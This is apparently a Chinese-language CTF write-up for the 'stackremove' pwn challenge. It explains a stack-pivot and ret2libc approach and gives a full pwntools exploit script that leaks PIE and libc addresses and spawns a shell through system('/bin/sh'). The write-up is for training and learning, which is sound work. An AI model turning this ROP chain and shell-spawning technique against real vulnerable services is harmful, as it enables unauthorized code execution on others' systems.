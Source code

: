 ```yaml
---
title: 赛博协会训练营 - stackremove
date: 2023/9/22 12:00:00
updated: 2024/7/30 10:28:00
tags:
    - noob
excerpt: 通过栈迁移和ret2libc利用，成功破解`stackremove`程序。
---
```


from cbctf starter 2023

## 文件分析

下载`stackremove`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

栈上空间很大，但是溢出rbp的空间很小，因此考虑栈迁移后ret2libc  
第一步先找到栈上一个有程序偏移的地址，利用`printf(..., buf + offset)`输入输入偏移后算出pieBase，
然后读取buf地址，方便栈迁移

具体过程讲解可以看newstar2023中的`stack_migration`Writeup

{% notel green fa-arrow-right tips %}
1. `scanf`中的函数会执行`movaps ..., xmm0`，也会检查rsp！下次见到这个指令就要多加一个ret
2. 本地调试找的main函数获取pieBase，结果一连接，崩了，一检查发现pieBase不对，在栈上找了一个其他函数
{% endnotel %}

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote(???, 10043)
elf = ELF('stackremove')

# payload 1: get pieBase
sh.sendline(b'96') # locate __libc_csu_initAddr
sh.recvuntil(b'kie!') # skip
libcCsuAddr = u64(sh.recvline()[:6] + b'\0\0')

pieBase = libcCsuAddr - elf.symbols['__libc_csu_init']
putsPlt = pieBase + elf.plt['puts']
putsGot = pieBase + elf.got['puts']
popRdiAddr = pieBase + 0x953
leaveRetAddr = pieBase + 0x8ea
retAddr = pieBase + 0x8eb
mainAddr = pieBase + elf.symbols['main']

# print(hex(pieBase)) # check
sh.recvuntil(b':\n') # skip
space = int(sh.recvuntil(b'sh')[:14], 16)

# payload 2: migrate stack for the first time
sh.sendline(p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(retAddr) + p64(mainAddr) + b'0'*0x38 + p64(space - 8) + p64(leaveRetAddr)) # scanf check rsp

sh.recvuntil(b'ot!\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
systemAddr = libcBase + libc.dump('system')
shstrAddr = libcBase + libc.dump('str_bin_sh')

sh.sendline(b'0') # no need this time
sh.recvuntil(b':\n') # skip

# payload 3: run system
space = int(sh.recvline()[:14], 16)
sh.sendline(p64(popRdiAddr) + p64(shstrAddr) + p64(systemAddr) + b'0'*0x48 + p64(space - 8) + p64(leaveRetAddr))

sh.interactive()
```

Done.
